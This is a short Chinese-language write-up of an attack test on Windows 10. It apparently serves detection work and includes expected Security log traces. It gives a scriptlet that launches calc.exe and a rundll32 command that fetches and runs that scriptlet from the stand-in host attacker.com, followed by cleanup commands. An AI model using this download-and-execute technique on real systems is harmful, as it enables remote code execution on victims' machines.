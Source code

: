 ## 测试复现

### 测试环境

- 系统：Windows 10
- 工具：`rundll32.exe`（系统自带）

### 测试过程

#### 1. 准备恶意脚本

- 在攻击者控制的服务器（如`https://attacker.com`）托管`malicious.sct`：
  ```xml
  <?XML version="1.0"?>
  <scriptlet>
    <registration progid="Test">
    </registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
      ]]>
    </script>
  </scriptlet>
  ```

#### 2. 执行攻击

**命令**：
```cmd
rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://attacker.com/malicious.sct")
```

**结果**（假设）：
- `rundll32.exe`发起HTTPS请求至`attacker.com`，下载`malicious.sct`。
- 脚本执行，启动`calc.exe`。
- 日志记录`rundll32.exe`的进程创建和网络连接。

#### 3. 清理

**命令**：
```cmd
taskkill /IM rundll32.exe /F
taskkill /IM calc.exe /F
```

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: WIN10-TEST
描述:
已创建新进程。

创建者主题:
  安全 ID: WIN10-TEST\user
```